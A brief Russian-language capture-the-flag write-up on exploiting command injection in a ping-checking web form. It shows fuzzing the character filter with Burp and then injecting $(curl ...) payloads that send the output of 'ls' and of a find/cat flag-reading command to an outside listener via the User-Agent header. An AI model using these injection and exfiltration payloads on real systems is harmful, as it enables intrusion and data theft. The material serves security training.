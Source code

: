 
Есть сайт который проверяет доступность Ip/ domain с помощью ping также имеется фильтры символов

Через бурп прогоним список [PayloadsAllTheThings/Command Injection/Intruder/command_exec.txt at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/Intruder/command_exec.txt) для проверки символов
![](../../attachment/Pasted%20image%2020250417163011.png)

![](../../attachment/Pasted%20image%2020250417163017.png)

$('') доступны
 попробуем отправить 
google.com $(curl 100.100.2.252:6655) и получим ответ
![](../../attachment/Pasted%20image%2020250417164128.png)
Попробуем изучить систему используя bash -c
```
google.com $(curl 100.100.2.252:6655 --user-agent "$(bash -c 'ls')")
```

![](../../attachment/Pasted%20image%2020250417164317.png)

Изучив файлы видим что флаг находится в корне
![](../../attachment/Pasted%20image%2020250417164345.png)
С помощью команды find ..  и -exec найдем файл в корне и прочитаем его и забираем флаг
```
google.com $(curl 100.100.2.252:6655 --user-agent "$(bash -c 'find .. -name "fla*.txt" -exec cat {} +')")
```
